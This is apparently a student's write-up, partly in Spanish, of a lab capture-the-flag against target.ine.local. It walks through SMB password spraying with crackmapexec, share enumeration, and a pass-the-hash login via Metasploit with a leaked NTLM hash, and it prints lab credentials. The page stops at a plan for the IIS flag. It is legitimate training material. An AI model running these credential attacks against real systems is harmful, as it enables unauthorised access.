

repository: scarlgyx/scarlgyx-cybersecurity · page: certs/ejpt/host-network-pentest/07-exploitation-ctf-2/index.html · generator: mkdocs

# Exploitation CTF 2

A target machine is accessible at **target.ine.local**. Identify the services and capure the flags.
/usr/share/wordlists/metasploit/unix_passwords.txt

- FLAG 1
Looks like smb user tom has not changed his password from a very long time.

![](../../../assets/img/Pasted_image_20260918184133.png)

```bash
crackmapexec smb target.ine.local -u tom -p /usr/share/wordlists/metasploit/unix_passwords.txt --continue-on-success | grep '\[+\]'
```

![](../../../assets/img/Pasted_image_20260918192312.png)

tom:felipe

Escaneamos recursos
```bash
smbmap -r -utom -pfelipe -H target.ine.local
```

![](../../../assets/img/Pasted_image_20260918192548.png)

Encontramos la flag en *//target.ine.local/HRDocuments/flag1.txt*

Nos conectamos
```bash
smbclient //target.ine.local/HRDocuments/ -U tom
```

![](../../../assets/img/Pasted_image_20260918192936.png)

- FLAG2
Using the NTLM hash list discovered in the previous challenge, can you compromise the smb user nancy?

Usaremos el módulo de metasploit *auxiliary/scanner/smb/smb_login* para hacer **pass the hash**
```bash
set pass_file leaked-hashes.txt
set createsession true
set SMBUser nancy
set RHOSTS target.ine.local
```

![](../../../assets/img/Pasted_image_20260920144320.png)

Vemos que acontece el PtH
nancy:aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad

Servicios potencialmente vulnerables a Pass the Hash

![](../../../assets/img/Pasted_image_20260920143105.png)

Buscaremos sobre qué recursos compartidos tiene permisos el usuario *nancy*
```bash
smbmap -r -u nancy -p aad3b435b51404eeaad3b435b51404ee:b3ddea4b4b957f3e037af75cfe5317ad -H target.ine.local
```

![](../../../assets/img/Pasted_image_20260920155421.png)

Nos conectamos a *ITResources*
```bash
smbclient //target.ine.local/ITResources -U nancy --pw-nt-hash b3ddea4b4b957f3e037af75cfe5317ad
```

![](../../../assets/img/Pasted_image_20260920160051.png)

- FLAG3

Usamos la pista que estaba escondida junto a la flag2.txt

![](../../../assets/img/Pasted_image_20260920160319.png)

david:omnitrix_9901

Intentamos conectarnos por ejemplo al servicio ftp

![](../../../assets/img/Pasted_image_20260920163214.png)

Vemos la flag

- FLAG4

Vamos a intentar centrarnos en el Microsoft-IIS/8.5 que hay levantado en el puerto 80
